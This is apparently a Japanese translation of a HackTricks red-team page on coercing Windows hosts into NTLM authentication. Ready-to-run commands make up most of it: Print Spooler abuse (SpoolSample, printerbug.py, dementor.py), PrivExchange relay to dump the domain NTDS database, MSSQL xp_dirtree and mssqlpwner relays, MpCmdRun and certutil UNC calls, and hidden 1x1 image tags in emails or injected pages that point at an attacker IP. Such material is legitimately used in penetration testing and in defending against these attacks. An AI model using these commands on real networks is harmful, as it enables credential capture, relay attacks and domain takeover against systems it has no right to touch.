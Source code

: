 # Force NTLM Privileged Authentication

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) は、**3rd party dependencies**を避けるためにMIDLコンパイラを使用してC#でコーディングされた**リモート認証トリガー**の**コレクション**です。

## Spooler Service Abuse

_**Print Spooler**_ サービスが**有効**な場合、既知のAD資格情報を使用してドメインコントローラーの印刷サーバーに新しい印刷ジョブの**更新**を**要求**し、**通知を任意のシステムに送信するように指示**できます。\
プリンターが任意のシステムに通知を送信する際には、その**システムに対して認証する必要があります**。したがって、攻撃者は_**Print Spooler**_ サービスを任意のシステムに対して認証させることができ、その認証には**コンピュータアカウント**が使用されます。

### Finding Windows Servers on the domain

PowerShellを使用して、Windowsボックスのリストを取得します。サーバーは通常優先されるため、そこに焦点を当てましょう:
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Spoolerサービスのリスニングを確認する

少し修正された@mysmartlogin（Vincent Le Toux）の[SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket)を使用して、Spoolerサービスがリスニングしているか確認します：
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
Linux上でrpcdump.pyを使用し、MS-RPRNプロトコルを探すこともできます。
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### サービスに任意のホストに対して認証を要求させる

[**ここからSpoolSampleをコンパイルできます**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
または、Linuxを使用している場合は、[**3xocyteのdementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket)または[**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)を使用してください。
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Unconstrained Delegationとの組み合わせ

攻撃者がすでに[Unconstrained Delegation](unconstrained-delegation.md)を持つコンピュータを侵害している場合、攻撃者は**プリンタをこのコンピュータに対して認証させる**ことができます。制約のない委任のため、**プリンタのコンピュータアカウントのTGT**は、制約のない委任を持つコンピュータの**メモリ**に**保存されます**。攻撃者はすでにこのホストを侵害しているため、**このチケットを取得し**、それを悪用することができます（[Pass the Ticket](pass-the-ticket.md)）。

## RCP強制認証

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

`PrivExchange`攻撃は、**Exchange Serverの`PushSubscription`機能**に見つかった欠陥の結果です。この機能により、メールボックスを持つ任意のドメインユーザーがHTTP経由で任意のクライアント提供ホストに対してExchangeサーバーを強制的に認証させることができます。

デフォルトでは、**ExchangeサービスはSYSTEMとして実行され**、過剰な特権が与えられています（具体的には、**2019年以前の累積更新に対するWriteDacl特権を持っています**）。この欠陥は、**LDAPへの情報の中継を可能にし、その後ドメインNTDSデータベースを抽出する**ために悪用できます。LDAPへの中継が不可能な場合でも、この欠陥はドメイン内の他のホストに対して中継および認証するために使用できます。この攻撃の成功した悪用は、認証された任意のドメインユーザーアカウントでドメイン管理者への即時アクセスを許可します。

## Windows内部

すでにWindowsマシン内にいる場合、特権アカウントを使用してサーバーに接続するようWindowsを強制することができます：

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)
```shell
# Issuing NTLM relay attack on the SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250
```
または、この別の技術を使用します: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

certutil.exe lolbin（Microsoft署名のバイナリ）を使用してNTLM認証を強制することが可能です:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTMLインジェクション

### メール経由

もしあなたが侵入したいマシンにログインしているユーザーの**メールアドレス**を知っているなら、**1x1画像**を含む**メール**を送ることができます。
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
そして、彼がそれを開くと、認証を試みるでしょう。

### MitM

もしあなたがコンピュータに対してMitM攻撃を実行し、彼が視覚化するページにHTMLを注入できるなら、次のような画像をページに注入してみることができます：
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## NTLMv1のクラッキング

[NTLMv1チャレンジをキャプチャできる場合は、ここでそれをクラッキングする方法を読んでください](../ntlm/#ntlmv1-attack)。\
&#xNAN;_&#x52;NTLMv1をクラッキングするには、Responderチャレンジを「1122334455667788」に設定する必要があることを忘れないでください。_

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
